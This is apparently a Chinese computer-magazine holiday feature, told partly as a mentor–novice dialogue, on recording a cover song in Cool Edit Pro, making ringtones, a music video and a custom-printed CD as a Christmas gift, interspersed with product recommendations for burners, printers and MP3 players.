神秘人：看你迫不及待的样子，好吧，我们可以开始了，不过你要有心理准备，Cool Edit Pro是一款专业的音频编辑软件，因为它功能过于强大，所以操作也超级复杂。

闷豆：不怕不怕，不是有你在旁边吗，你只要指点我进行那些跟翻唱录音有关的步骤就行了，其他的功能以后慢慢摸索。

神秘人：OK，Let's go！

### 录制——本色演唱

神秘人：确定麦克风上的开关和音频属性中的选项都打开后就可以运行Cool Edit Pro了。

闷豆：在Cool Edit Pro中直接开始录唱？

神秘人：除非你所在的环境非常非常安静，一点噪声都没有，否则最好还是做个环境降噪的采样吧！

闷豆：不要这么专业，告诉我什么意思以及该怎么做就好。

神秘人：在我们录歌的环境中有一些持续的噪声是不可避免的，比如电脑运行发出的声音，或者从窗户缝里挤进来的马路上的车水马龙声。我们在唱歌之前先录制一段这样的“纯噪声”，等我们唱完过后，Cool Edit Pro会根据这段“纯噪声”作为参考，把我们演唱时顺带录下的噪声进行去除。

闷豆：高，实在是高！

第一步：在“音轨3”处点亮“R”，然后点击录音键，先不要开始演唱，录下一段空白的噪音，时间不需要太长，待录音完毕后双击进入波形编辑模式，然后在菜单栏选择“效果→噪音消除→降噪器”，点击“噪音采样”按钮，然后“关闭”。最后点击多轨/波形编辑按钮返回多轨模式，右键点击这段音轨选择“移除音块”删除这个音轨。

第二步：在“音轨1”处中点击右键，选择“插入→音频文件”，导入刚才处理好的已经去除了原声的*.wav文件，这时候音轨一里会显示出这首歌曲的波形。由于去除了原声以后音乐音质损失较大，导致某些乐器声音过小，并且听上去有种空旷的感觉，我们可以双击它进入波形编辑模式，然后通过菜单栏的“效果→滤波器→图形均衡器”进行微调。

第三步：在“音轨2”处点亮“R”（记得将音轨3的R按钮关闭），然后点击录音键就可以开始跟唱了。不要忘了准备歌词和熟悉旋律哦，别告诉我你准备演唱的是一首从来没有唱过的歌……

### 神秘人小提示

将均衡器更改为“30段均衡”可更精确地调整每个音频。点击下方的“预览”可进行调解后的音乐预览，其间可自由调节音频滑动块，直到达到我们想要的效果为止。什么是我们想要的效果？那就需要用耳朵、用心去体会和感受了。

### 润色——动人歌声

第一步：右键点击刚才录制声音所在的轨道，双击进入波形编辑模式，让我们来给歌声进行一下润色。

第二步：首先要进行降噪，还记得先前录制的“纯噪音”么？派上用场了，点击菜单栏中的“效果→噪音消除→降噪器”，此时只需点击“确定”，降噪器就会自动消除歌声中的环境噪音。

第三步：接下来我们可以尝试着添加一些效果，菜单栏上的“效果”选项提供了效果列表。其中“DirectX”下的效果默认只有三种，不过可以通过安装第三方插件的方式增加一些高级效果。安装完插件以后点击菜单栏的“效果→刷新效果列表”刷新一下你的效果列表，立刻就会发现在“DirectX”下多了很多的选项。

### 神秘人插件资源提示

网上各类插件非常多，BBE Sonic Maximizer、ultrafunk2、wave3.0是最基本的三个音频效果插件，可以在http://soft.xaonline.com/SoftWareView.asp?softWareID=54031下载到。

1.  高低激励：双击人声音轨切换到波形编辑界面，选定全部波形，然后在“效果”里选择“DirectX”里的“BBE Sonic Maximizer”插件，三个旋钮的作用分别是调整低音、高音和整体音量的。我们可以根据人声来调整高低音还有总音量，比如刚开始录唱的时候还有点紧张，录进去的人声不是很有力，这就需要加高音激励起来。
2.  不噪不浑：安装waves3.0后，在“DirectX”选择“Waves C4”，出现调整窗口。别怕那些复杂的调节项目，在调整窗口选择“load”，在里面的许多效果中选择倒数第四个“pop vocal”，这是预设置的方案，适合大多数流行歌曲。
3.  加强力度：安装“Ultrafunk fx”后会有名称叫“Compressor”的效果器，这个效果器的作用就是增强人声的力度和表现力。打开后会看到上面有四个小方框，不同的数据会有不同的效果。图中的参数供大家参考，其中第一项为-20。
4.  配合混响：这里我们需要用到“Ultrafunk fx”插件的“Reverb”的效果器。此工作需要很细心，不同的录音环境，不同的曲风混响效果都不是一样的。这需要大家不断地积累经验，容积较大、吸声不足的房间，效果器的人工混响时间要短。男声演唱时混响时间应短些；女声演唱时混响时间可长些；业余歌手可用较长的混响时间，以掩盖声音的不足之处等等……图中的参数供大家参考。
5.  均衡歌声：这个效果的实现要利用 'Ultrafunk fx' 插件的 'Equalizer' 的效果器。主要作用就是均衡人声，让高频在保持不噪的前提下调整到清晰通透；低频保证不浑浊的前提下调整到清晰、自然。图中的参数供大家参考。
6.  变立体声：一般录出的人声都是单声道，转换成立体声后才会有立体感和方位感。双击音轨进入波形编辑模式，然后按F11打开 '转换音频格式' 面板，选择16位立体声格式，然后按 '确定' 按钮。接着ctrl+a选择全部波形，然后选择 'Ultrafunk fx' 效果里的 'Phase' 的效果器，会出现三个小框，第一个是调声相状态，第二个是调声场宽度，第三个是处理后的音量大小。仔细调到自己感觉最好，这样单声道就转换成立体声了，仔细听听，是不是比单声道好听多了呢？

### 神秘人资源提示

在http://ok.21cn.com/news/news_detail.jsp?id=847这个地方有混响插件 Ultrafunk2 的更为详细的程，有兴趣的朋友可以自行搜索一下。

### 混缩——琴瑟合一

闷豆：没想到啊没想到，这么一折腾，我闷豆的声音居然也赶美超英，吓倒费玉清了。

神秘人：你这就点追求啊，你现在的歌声可还没有合成呢。

闷豆：哦，对对对，继续继续！

1.  第一步: 人声后期处理作完后接着就是混缩了。首先我们进入多轨编辑模式调整人声音量，在音块上点击右键并选择 '调整音频块音量'。这次闷豆演唱得很好，音色相当不错，所以可适当减小一些伴奏音乐的分量，以突出他的歌声，如果大家觉得自己录制的时候对歌曲的旋律不很熟悉，容易唱走调，合不上拍等，可以适当加大一些伴奏音乐的音量予以掩饰。人声音量调整好后，在 '编辑' 菜单栏里选择 '混缩到空音轨(音轨3)'，接着选择 '全部波形'，这样混缩就完成了。
2.  第二步: 混缩好后双击混缩音轨，进入单轨形式，从头到尾仔细听一遍，听听是否均衡，是否需要加些低频，有无其他问题等等。
3.  第三步: 一切都调整好以后就可以保存自己的作品啦。双击混缩音轨进入波形编辑模式，然后选择菜单栏的 '文件→另存为'，选好文件格式，这里当然选 'mp3'，最后确定就可以了。

### 如影随形 手机铃声变歌声

闷豆：没想到我闷豆也能录制出如此有水准的翻唱歌曲啊，真是百听不厌。能做成手机铃声吗？

神秘人：当然，只要你的手机支持数据线或者红外方式上传铃声就可以。

闷豆：我的手机当然支持，不过我还有个小小的请求。

神秘人：嘿嘿，想要把铃声存到MM的手机里面是么？

闷豆：这你也能猜到……

神秘人：可以是可以，不过有一定难度。你能把MM的手机偷过来连到电脑上传歌么？

闷豆：要是被发现了，圣诞夜可就一点惊喜都没有了啊。

神秘人：没关系，还有最后一招，先把铃声做好存在你自己手机里面，圣诞夜的时候找个机会用红外传送到MM的手机里面，然后再偷偷设定成铃声……

闷豆：然后在意想不到的时候自己偷偷拨打MM的电话……对吧？

神秘人：开窍了你。

比较多见的铃声制作工具有MMFUTA，PsmPlayer，WAVTORINGTONE等，我们挑取MMFUTA作为例子先跟大家讲讲，至于另两个，请看我神秘人的资源提示吧！好了，在开始制作之前还要说明一下，手机对铃声大小有限制，如果铃声文件大小过大，则无法正确地传入手机中去，具体大小因机型而异。

所以，我们肯定不能把整首歌曲作为铃声，只能选取其中最动听或是最高潮的部分。

1.  第一步: 打开Cool Edit，用快捷键Ctrl+O打开刚才已经制作好的mp3文件，然后掐头去尾，只保留中间的高潮部分。在右边的波形编辑区域将欲删除的波形部分按住鼠标左键水平移动将其框选起来，然后按一下键盘上的Delete键就可以轻松的将这段音乐删除了。
2.  第二步: 因为歌曲伴奏是连贯的，生硬地从中截取一段，开头和结尾都会给人以唐突的感觉，所以需要加上淡入淡出的效果。选择菜单栏的 '效果→波形振幅→渐变'，在弹出的面板右方选择 'Fade In' 以增加淡入效果。根据自己感觉调节好两个滑动条，音乐淡入效果就添加完成了。淡出方法与淡入同理，只不过是选择右边的 'Fade Out'。淡入和淡出要分开处理，你可以随时点击面板下方的 '预览' 按钮进行试听。
3.  第三步: 编辑完成后，点击菜单栏的 '文件→另存为' 打开文件保存窗口，保存类型选 'ACM 波形(*.wav)'，然后点击下方的 '选项' 按钮，滤波器选 'PCM'，特性为 '8,000 kHz, 8位，单声道'，然后 '确定'，取好文件名以后保存该文件。
4.  第四步: 下载安装MMFUTA这个铃声转换软件（下载地址：http://bzzj.52samsung.com/CCTV/Download/mmfUta.exe），并安装好Office 2000或以上版本（为什么要装它？因为好像MMFUTA使用到了Office的一个插件，如果不装，转换时会出错，装吧，一切为了mm！）
5.  第五步: 打开MMFUTA，选择菜单栏的 '文件→载入WAVE文件'，将刚才制作好的*.wav文件导入进来，然后将 '设置采样频率' 设置成8000，其他设置根据自己需要来调整，将鼠标放在预设置的项目文字上，下方就会出现提示。
6.  第六步: 一切设置妥当以后就可以按下方的 '按下按钮开始转换高品质铃声' 按钮开始转换了，转换完成后会在歌曲目录下一个.MMF格式的铃声文件，然后用数据线或红外线将铃声灌入手机中吧。

### 神秘人资源提示

制作铃声的软件还有PsmPlayer，WAVTORINGTONE等，这些软件各有优劣，如果其中一款软件达不到你手机的要求，那么可以试试另外一种。

PsmPlayer 图文教程:http://cms.139shop.com/magazine/playContent.aspx?nid=44582&pno=2

WAVTORINGTONE 图文教程:http://bbs.games.17173.com/topics/20/200509/28/392_1.html

### 声色兼具 Music Video 也 DIY

闷豆：神啊，接下来我可以把MP3文件传送给MM了吗？

神秘人：你也太没情趣了，花了那么多心思作出来的东西，不加包装就送出去，很丢人的。

闷豆：哪有什么办法？总不能把MP3变成Music Video吧！

神秘人：你说对了，接下来我们就来一些大胆的尝试，作出一套声色兼具的Music Video，震撼你的MM。

闷豆：可是我没有DV啊！

神秘人：笨，摄像头总有吧？没有摄像头，用数码相机的录像功能也可以啊！

闷豆：要不怎么说你是神呢，不过还有个问题，拍什么？

神秘人：距离圣诞还有将近一个月的时间，你现在开始每天把DC带在身边，看到什么有意思的东西就拍下来。

闷豆：明白，在这一个月里搜罗点点滴滴的素材，到最后一定会不少感动MM的镜头。

神秘人：嘿嘿，好啦，以后怎么着我不管，现在先教教你怎么做吧！

闷豆：完全同意。说吧，这次要装什么，Premiere Pro？

神秘人：看不出来你还知道这个王牌工具啊，不过我们还用不了那么高深的，Windows XP系统下自带的Windows Movie Maker 就够我们折腾了。

### 影音齐下

1.  第一步: 打开Windows Movie Maker，在左边的电影任务栏处选择 '导入视频'（从DV中导入视频则选 '从视频设备捕获'），选择需要导入的视频文件，可以是*.avi，*.mpg等多种流行格式。然后将被自动切分的剪辑按顺序拖动到下方的剪辑框里，点击 '显示时间线' 按钮。
2.  第二步: 将时间线左边的 '视频' 前面的+号点开可以看到这段视频的音频波形，在波形上点击右键并选择 '静音'，就可以将视频中的声音去掉了，注意，有几段就要操作几次。
3.  第三步: 在电影任务栏处选择 '导入音频或音乐' 导入你的歌曲，然后将它拖动到时间线的 '音频/音乐' 处（注意贴近时间线的左边缘）。
4.  第四步: 如果导入的视频比歌曲的长度更长，那么我们必须对视频结尾处做些裁减。点中时间线上的最后一段剪辑，在右边缘处按住鼠标左键向左移动直到跟音乐时间相对称的合适位置。这样还不够，在这段剪辑上点击右键选择 '淡出'，避免嘎然而止的画面让人莫名其妙。
5.  第五步: 在电影任务栏处点击 '保存到我的计算机'，输入文件名并选择好路径以后点击 '下一步'，接下来点击 '显示更多选项' 字样，选中 '其他设置'，然后在下拉菜单中选择 'DV-AVI (PAL)'，继续下一步就可开始文件的整合与编码了。

### 神秘人小提示

Windows Movie Maker 还可为影片加入许多过场、片头、片尾等特技效果，我们前面说到的只是最简单的，如果想要作出更漂亮的Music Video，那就自己再花心思去琢磨一下吧。

### 添加字幕

1.  第一步: 下载安装安装 '超级转换秀' 和 '字幕转换通' 两个软件（下载地址：http://www.powerrsoft.com/indexgb.htm）。
2.  第二步: 打开记事本，新建一个文件，按照这样的格式写下歌词：
    1
    00:00:00,000 → 00:00:10,000
    这里写入第一句歌词
    2
    00:00:11,000 → 00:00:15,000
    这里写入第二句歌词
    以此类推...
    这种格式起到的作用相信不难理解，00:00:00,000 → 00:00:10,000表示第一句歌词从0秒到第10秒持续显示，00:00:11,000 → 00:00:15,000表示第二句歌词从11秒开始到第15秒持续显示，至于应该在什么时间段加入歌词，我们可以用Cool Edit导入音乐并播放，一边放一边听，适当的时候暂停音乐，记下这段歌词的播放时间段。
3.  第三步: 输入完所有的歌词并确定好时间后，把这个文件另存为 *.srt格式文件。
4.  第四步: '字幕转换通' 软件是插件程序，所以它本身没有任何的设置界面，完全通过 '超级转换秀' 主程序来控制它所有的工作状况。打开《超级转换秀》主程序，然后在 '视频转换通' 对话框选项卡处即可。
5.  第五步: 从 '超级转换秀' 中选择导入一个待转换的视频，设置好相关导出参数后，即可在转换任务列表中看到此视频的转换任务条项，选中列表中的该条项，点击 '为视频加字幕' 按钮，即会弹出 '字幕转换通' 插件提供给 '超级转换秀' 的增强字幕设置界面。
6.  第六步: 点击 '浏览' 选择我们刚才编辑好的srt字幕文件，点击 '确定' 就可开始字幕的添加工作了。

### 神秘人公益广告

未注册用户将无法为视频添加字幕，支持国产软件，支持作者，花点钱注册一下吧。

### 闷豆制造

闷豆：我明白你的意思了，把这些精心加工的东西刻录成光盘送给mm是不是就是你最后的计划？

神秘人：孺子可教也，不枉我花这么多口舌来教你。不过……你确定你的MM收到这份别出心裁的礼物会感动得痛哭流涕？

闷豆：那当然，这可是我闷豆花了N个夜晚，绞尽脑汁、倾情打造的绝世礼物啊！

神秘人：嘿嘿，那倒也是。不过我得提醒你，刻录光盘的时候最好用Nero Burning-ROM这样的专业软件，不要用Windows XP自带的刻录功能，因为用它刻录的话，速度慢不说，而且还有一定几率刻录失败。

闷豆：哦？为什么呢？

神秘人：因为Windows XP自带的刻录功能在刻录过程中，如果系统资源被其他程序占用，很容易导致刻录失败。而Nero Burning-ROM则会先在硬盘上生成一个镜像文件，然后再从镜像文件刻录到光盘上，这样就大大降低了刻录失败的几率。

闷豆：原来如此，那我得赶紧去下载一个Nero Burning-ROM。

神秘人：别急，我这儿有下载地址：http://www.nero.com/chs/。对了，刻录之前别忘了用Nero Vision Express这个组件来制作一个漂亮的光盘封面，这样你的礼物看起来就更专业了。

闷豆：太好了，这下我的MM肯定会更加感动了。

神秘人：好了，我能教你的都教了，剩下的就看你的了。祝你圣诞夜马到成功！

闷豆：谢谢神！你真是我的圣诞天使！

### 神秘人资源提示

1.  Nero Burning-ROM 官方网站：http://www.nero.com/chs/
2.  Nero Vision Express 使用教程：http://www.nero.com/en/downloads-nero-vision-express-3.php
3.  免费光盘封面制作软件：http://www.freedisclabels.com/

## 尴尬启示录

对于IT领域，可以说每个方面都有可能存在某种尴尬，这种尴尬有时并不是技术或产品本身的问题，或许因为用户的无所适从，或许因为商家利益驱使，或者技术本身生不逢时……所以我们绝对不能把此时的尴尬一词看做贬义。或者说他本身的褒贬并不重要，重要的是我们能够从中领悟什么？

- CPU的尴尬告诉我们
    - CPU双核技术目前暂时是AMD领先
    - Intel CPU更省电的论点无任何参考价值
- 板卡的尴尬告诉我们
    - BIOS防毒功能不用打开
    - 过早投资SLI，得不偿失
    - 购买主板时7声道输出无参考价值
- 显示器的尴尬告诉我们
    - 合理用眼才是关键，不合理使用下，LCD一样会损害视力
    - 购买显示器TCO可作参考，但不必盲从
- 存储系统的尴尬告诉我们
    - 硬盘空间的计算方法有厂商和操作系统两种，结果有所不同
    - 在现阶段CPU外频限制下，DDR2并不能体现出更大优势
    - DVD刻录标准还没有大一统，购买刻录机和盘片的时候务必弄清
- 音箱的尴尬告诉我们
    - 购买音箱时标注的频响范围无参考价值
- 鼠标与键盘的尴尬告诉我们
    - 一种设计不可能适合所有的人，自己用着舒服才是最重要的
- 笔记本电脑的尴尬告诉我们
    - 声称影音型的笔记本不是不能买，只是不要对效果抱太大期望
    - 外壳发烫的笔记本不一定不好，外壳太凉的笔记本倒要小心
    - 不要迷信厂商宣称的重量和使用时间，这些都是理想化的数字
- 打印机的尴尬告诉我们
    - 合理利用打印机和电子手段，让它们有效互补，相得益彰
- 数码相机的尴尬告诉我们
    - 不要让像素左右一切，因为CCD尺寸不同影响更大
    - ISO超过400已经没有太大意义，购买时无参考价值
    - 数码变焦仅作望远镜功能，购买时无参考价值
- 整机的尴尬告诉我们
    - 当客服人员需要幽默感……

（梁颖思 虱子 贼查查）## 超级装备推荐——Sony DRX-800UL外置刻录机

使用笔记本却没有刻录光驱的朋友推荐使用外置刻录机，索尼新推出的DRX-800UL就是这么一款能够提供较高刻录质量且外观非常酷的DVD刻录机。一眼看去，DRX-800UL立刻让人感觉到它的与众不同，与托盘+按钮的典型设计相比，这款DRX-800UL将整个面板都做成了舱门，而把按钮放在了机身的侧面，所以整体线条显得非常流畅，颇有点跑车的风格。这款刻录机同时支持火线与USB 2.0接口，外壳上面还特意标注了“双层”的标注，表示DRX-800UL支持双层盘片。

## 雕刻时光 永不磨灭

神秘人：你就这样把光盘拿去送MM？
闷豆：还要怎样？这可是原装正版的“闷豆制造”啊！
神秘人：得了吧，看看你的光盘面，傻不傻啊？
闷豆：这光盘面又不是我印刷的，有啥办法！
神秘人：哼哼，让你见识见识最新的光雕技术。
闷豆：那得用专门的光雕刻录机吧。
神秘人：不光是专门的刻录机，盘片也必须是专门的光雕盘片哟，这种盘片市场上都有卖，不过比普通的刻录盘要贵一些。
闷豆：不怕贵，只要MM开心，怎么都好。

> LightScribe技术是由惠普公司开发的一种利用激光在光盘表面刻印图案的技术。LightScribe技术刻录的时候，激光头会发出780nm的激光束打在光盘的表面，使光盘表面的激光感应层发生化学反应，将要记录的信息雕刻在光盘的数据感应层上。所以引入LightScribe的刻录机大多被称为“光雕”。

## 超级装备推荐——明基DW1625 DVD刻录机

BenQ银色月光DW1625是一款支持光雕（LightScribe）技术的刻录机。使用LightScribe技术需要配合支持该技术的刻录软件进行，明基为选购DW1625的用户提供了一张很有用的软件光盘，其中除了支持LightScribe技术的Nero Suite软件套装6.6版本以外，还包括明基特有的QVideo以及QSuite。刻录机安装后Windows XP会自动识别它，但是要进行光雕刻录还必须要运行LightScribe Host服务，我们可以到Nero官方网站下载http://dl1.nero.com/LS_HSI.EXE，安装后自动在系统服务中运行。整个光雕过程非常简单。

- 第一步：点击Nero SmartStart主界面上“其它→打印LightScribe标签”，即运行Nero光雕刻录版的CoverDesigner。点击主菜单上“文件→新建”进入新建向导，在窗口中的“LightScribe”标签中根据你的刻录形式选择相应的“空白文档”，确定后在主界面出现空白盘面图样。
- 第二步：双击空白盘面，出现“背景属性”窗口，点击“映像文件→图像来源→文件”，打开我们为MM精心设计的背景图片（如图24）。点击主菜单“对象→插入”，在光盘背景上加入各种修饰图案和文字。
- 第三步：封面设计调整满意后，点击主菜单“文件→打印LightScribe标签”进入“LightScribe打印属性”窗口。
- 第四步：确定好在光盘表面要刻录的内容之后，在DW1625的托盘内放上支持LightScribe的光盘，这里要提醒大家，光盘要把数据面向上，支持LightScribe技术的外表面向下（与刻录光盘时的放法是相反的）。点击窗口中的“预览”查看效果时候就必须将LightScribe光盘正确放入光驱中。
- 第五步：最后进行光雕刻录，点“确定”之后，只需要耐心地等上一小段时间（大约15~30分钟），就可以欣赏到自己的杰作了。

## 五光十色 精美礼品再包装

神秘人：其实光雕也不是我们唯一的选择。
闷豆：我就知道你的花样多，说说看除了光雕还有什么办法让我们的光盘不那么老土？
神秘人：何止不老土，简直是让光盘五光十色。
闷豆：盘片打印？
神秘人：正确，不过打印盘面也不是那么简单的，分几种情况。
闷豆：洗耳恭听。
神秘人：盘片打印分两种，一种是打印到专门的光盘贴纸上，然后把贴纸贴到光盘面上，另一种则是直接打印到光盘背面上。
闷豆：各有什么不同？
神秘人：能够打印贴纸的打印机相对较多，而且贴纸也比较好买，很多电脑城买刻录光盘的地方都有这种贴纸卖。而直接打印盘片的门槛就要高一些了，首先是打印机自身要支持，通过专门的光盘打印托架才能实现直接的盘面打印。另一方面，不是所有的刻录光盘都能够用于打印的，想要保证打印质量，必须要使用背面易于吸收墨水材质的光盘。这种光盘在大多数卖刻录盘的柜台都有卖，不过一定要说清楚是专门用于直接盘面打印的。
闷豆：哦，原来还有这么多讲究，你要不说，我买光盘的时候没准就会弄错。

## 超级装备推荐——Canon PIXMA iP4200打印机

### 独特外形

2004年佳能PIXMA系列一经推出，其“优雅的立方体”式的外观设计颠覆了传统打印机的呆板的外型，引起无数消费者的关注。2005年，新一代PIXMA喷墨照片打印机iP4200在PIXMA系列优雅造型的基础上，加入更多设计细节，银色的弧线勾勒出更加凝练生动的线条，无论放置在办公室或是居室的任何地方都能完美地融入环境，平添一丝时尚气息。

### FINE技术 速度与品质的完美结合

佳能PIXMA iP4200应用佳能独创的“FINE”技术，打印头上规则排列着高密度的微小喷嘴，先进的技术带来出色的性能：最小可喷射仅为1pl的墨滴，最高可达9600x2400dpi的超高分辨率。FINE打印头快速喷射细小墨滴，每一墨滴在纸张上的精准定位确保打印画质的清晰精致，PIXMA iP4200还原色彩自然准确，效果可以和6色打印机相媲美。最小仅有1pl的墨滴超越人类视觉的限制，再现锐利的细节。4×6无边距照片仅需约51秒，PIXMA iP4200可以快速完成专业品质的打印。

### 墨水品质的提升

对于文档和照片的不同打印任务，PIXMA iP4200的颜料黑色和染料彩色墨水的人性化组合可以各显神通，满足客户对高品质打印的需要。全新的颜料黑色墨水，不仅保持了颜料墨水打印黑白文本锐利清晰的一贯优势，和彩色染料墨水一起打印时，边缘表现得也更加清晰，洇出现象和稳定性都有了明显改善。同时PGI-5黑色颜料墨水容量比一般墨水盒更大，使用起来成本自然更加经济。

### 省字当头 双向进纸技术

PIXMA iP4200有着打印机后部自动进纸器以及前部进纸盒两种进纸方式。在两种进纸源内可以放置不同尺寸与类型纸张，并可以通过打印机前面的进纸切换键自由转换，为在不同介质上的打印工作提供了方便。前部进纸盒和自动进纸器内都可以放置多达150页的普通纸，打印机整体供纸量提升到300页，不仅满足了大量打印的供纸需求，如果身处狭小的办公环境，双向进纸功能允许选择不同的进纸源，不失为节省空间的好方法。

### 简单易用的盘面打印功能

打印盘面也是PIXMA iP4200的重要功能之一。它拥有专用的盘面拖架，打印盘面时可以使用专用打印盘面的CD-R盘片，也可以使用盘面打印纸，选择更为灵活。利用安装光盘内赠送的CD-Label Print或Easy-Photo print软件，用户能够轻松设计并打印出个性化光盘，同时为文件的归档整理提供了更加专业有效的方式。

闷豆：除了打印盘面，还能利用打印机做点什么？
神秘人：圣诞节最重要的当然是做一张圣诞贺卡。
闷豆：老土……贺卡年年都做，没什么新意，罢工。
神秘人：那你有没有想过把贺卡与光盘合二为一？
闷豆：有创意，怎么实施呢？
神秘人：其实很简单，几步就搞定。
第一步：找一个老式的塑料光盘盒，打开盒盖，把盒内的底座抠下来。然后用尺子量出它的纵横尺寸为：14CM×12CM。
第二步：在Photoshop中新建一个文件，如图27的方式来进行设计，封面的内容可以是贺卡的形式，封底还能放上光碟中歌曲的歌词。封底和封面都要和我们量出的光盘底座尺寸一样大，中部的连接部分高度为6毫米最为合适。
第三步：把设计好的图片打印出来，按照线条折好，一个光盘外壳就诞生了，然后找几根双面胶条把先前抠下来的盘盒底座粘在我们的纸壳内部，OK，完美的贺卡、盘盒二合一。
神秘人小提示
在实际制作盘盒时最好为四周预留一些灰色边条，这主要是用来折边的，由于相片级别的打印纸质地都偏硬，直接裁剪过后容易划伤手，预留的折边就是用来解决这个问题的，把折边整齐地折回去再用胶水粘牢，确保安全。

## 超级装备推荐——EPSON STYLUS PHOTO R350打印机

### 更“精”更“省”

喷墨打印机的核心是打印头，爱普生所研发的新工艺精准微压电喷头技术，让喷嘴达到了前所未有的垂直程度，最大限度的避免横纹误差，实现打印速度在业内的再次飞跃。墨滴被更均匀，更准确，更稳定、更快速的喷射到打印介质上，色彩品质表现更精细出色。采用爱普生新工艺精准微压电喷头技术，在支持分辨率高达优化5760×1440dpi高精度打印的同时，精确控制调整墨滴大小和着墨位置，保证墨滴最小达3微微升，比头发丝的五分之一还细，并可自动针对色块大小，以最合适的墨滴量来显像，有效节省墨水使用，也同步提高打印速度，让用户在最短的时间内，创造极其精致、细腻的打印品质，媲美最好的冲印店的最好效果。

### 永久保存你的笑容

即便是普通照片，褪色问题也是无法避免的。但在某种程度上，STYLUS PHOTO R350可以给用户一定的保障。爱普生恒彩光泽照片墨在传统六色墨的基础上增宽黄色和洋红色的色域，从而整体色域得以更加宽广，比过去色彩表现得更稳定，层次更丰富，同时拥有优良耐光、耐侵蚀的保存性，给你最大的感官变化就是照片有了焕然一新的光泽感。

### 多种传输打印方式

没有电脑，就意味着很多打印机都无法工作，因为它没有连接线缆，没有读取装置。而STYLUS PHOTO R350则不同，它可以在脱离电脑的情况下，读取各种数码相机的存储卡。如果你连存储卡都懒得从数码相机里拿出来，那也没有问题，STYLUS PHOTO R350支持USB Direct Print和Pict Bridge技术，你只须用USB线将数码相机与打印机连接，再按下数码相机Print键输出照片就足够了。最令人称奇的是它的无线蓝牙打印功能，只要把数码相机、手机、PDA等设备中的文件通过蓝牙传输，直接发送到打印机，立刻就能打印出需要的照片！

### 独立光盘盘面打印

打印光盘盘面是STYLUS PHOTO R350重要的功能之一。在入纸槽的上面还有另一层入纸槽，拉开后是一个专用入纸口。准确地说，这是一个入“盘口”，使用自带的专用托架，把可打印盘面的光盘放置其中，再通过附带的软件即可实现盘面打印。

## 圣诞礼物推荐——白色圣诞de 爱国者 MP-F100LT随身听

### 外观大方得体

乳白色的注塑外壳，一反时下小巧的外形设计，体积有些稍大，机身底部由一整块厚达1mm的镁合金制成，把机身的两个侧面“包裹”起来，而且一直延伸至机身顶端，给人的感觉很有特色。

### 专一简洁

双色OLED显示屏旁有一个四方导航键，负责整个机器的操作，简明、快捷。操作界面则采用了全屏显示选项菜单，与整体和谐搭配，显出一种专一。虽然只支持一种播放格式，但是音质突出，在MP-F100LT上采用自定义模式的调节方式，分别拥有80～200Hz的重低音调节、8级低音及8级高音的音阶调节；比起一般的预设音效拥有更高的自由度。同时，各频段的表现更为平衡，在分析力和乐器隔离度方面表现良好；不过在高频段仍然有修饰的迹象，低频段的冲击力不错，但是量感和下潜仍然未能有所突破。

### 优秀突出

FM功能支持手动调台、自动调台，可以存储30个电视频道，接收频段覆盖76～108MHz。整体而言，爱国者MP-F100LT拥有不俗的外观，尽管功能与配置并不强大，但是专一的思想贯穿于其中，使其又有优秀的素质和品质。像这样的MP3，拿来送给心爱的GG，一定能让他过一个非常开心的“白色圣诞”。

## 歌声伴我行 随时随地随身听

闷豆：总算是看到成品了，堪称完美的礼物啊！
神秘人：嗯，相信这绝对算得上最用心的圣诞礼物之一，不过呢……
闷豆：又来了，为什么你总是那么多不过？
神秘人：不都是为了让你的礼物更完美嘛！
闷豆：这倒是，朕恕你无罪，接着说。
神秘人：虽然这一套都是非常用心做出来的，不过有一个小小的缺点，那就是从表面价值来说，显得不是特别贵重。
闷豆：花了那么多心思做的啊，还嫌不够贵重？
神秘人：葡萄美酒夜光杯嘛，都到这一步了。为什么不再完善一点，比如为她挑选一款时尚个性的MP3随身听，然后把我们唱的歌保存进去？
闷豆：嘿嘿，好主意，顺便还可以录一段我不好意思当面说的心里话呀！
神秘人：- -#

## 圣诞礼物推荐——心心相印 de 爱国者 UM-P892随身听

### 心心相印

“双心”在握，品质当然不同凡响，两个芯片分别对音频和视频进行处理，使音频、视频在同步播放的同时得到更专业的处理，更代表着两心心心相印，自是有另一番意境。

### 一键穿梭音场

独有的“音场穿梭”键，可以使您轻松领略HIFI音场、剧院音场、家庭影院音场三种场景的效果，在音乐模式上，UM-P892也是苦心修炼，8种曲风、共计40种音效调节加上高频扩展及低音重音还原技术，使得低音下潜有力，高音在音量很大时，也能保持很好的人声，而且在播放时，环绕三维立体声音效，使音乐的范围，更加宽阔、空旷。虽然可以播放视频，但是高品质电池，加上低功耗技术，可以免除在享受优美音乐的时候，MP3突然断电烦恼。具备FM调频，可随意录制电台节目，同时对FM也具有5种音场。

### 娱乐、学习、品质三箭齐发

在娱乐的同时还有强大的学习性能，电子书、图片预览丰富你的生活。UM-P892音质、视频、学习三箭齐发，独有的双内核CPU架构，使其在现在的MP3市场，独领风骚。

闷豆：对了，现在不少彩屏MP3都支持播放MTV了，那么把我们制作的MTV放进去岂不更好？
神秘人：这倒是个好主意，不过有一点需要纠正，我们做出来的MTV是指的Music Video，而现在的彩屏MP3播放器所支持的是*.MTV文件格式。
闷豆：哦，也就是说我们制作的Music Video不能够存到MP3随身听里面了？
神秘人：可以存进去，但是不能正常播放……
闷豆：废话。
神秘人：当然，想把我们自己DIY的Music Video搬上MP3随身听的屏幕不是没有可能，不过要明白一个基本概念。现在彩屏MP3所支持的MTV主要包括一些常见格式，比如*.MTV、*.AMV等。我们可以通过工具把自制视频转换为相应的文件，传到MP3随身听中。但是目前的*.MTV、*.AMV等格式都并非完全通用，每个品牌的MP3随身听都不一定能支持其他工具转换出的文件。
闷豆：那你的意思是每个品牌的MTV转换工具都可能不一样？
神秘人：是这样的，不过这些转换工作都很简单，转换工具也都不太复杂，一试便知。

## 圣诞礼物推荐——见证快乐 de 三星YP-T8随身听

### 个性功能 圣诞乐翻天

GG最喜欢什么？当然是一个字：玩！这是Boy的本性，Girl到了一定年龄，爱美之心早已大于玩乐。小伙子就不一样了，虽然不再是小孩子的玩法，但依旧离不开“玩”字，而这正是选择三星YP-T8送给你心中的他最重要的原因。

### 影音娱乐 无可替代

以前，多声道音响的雄伟和逼真感受只能在室内才能欣赏到，现在不同了，你随时随地都可以欣赏！T8的三维立体音响实现了20mW+20mW强大功率。YP-T8还使用了真彩屏幕，1.8英寸的屏幕拥有惊人的26万色表现能力。

### 按钮也能自己设

YP-T8开创了定制按钮的时代。利用上下推拉Tilt Key按钮，我们就可以按照自己喜欢的方式，把YP-T8的按钮设置成最需要的功能。YP-T8显然就是个性体现，如果你正在为礼物而发愁，不如把YP-T8送给他，相信他一定喜欢。

### Game Boy

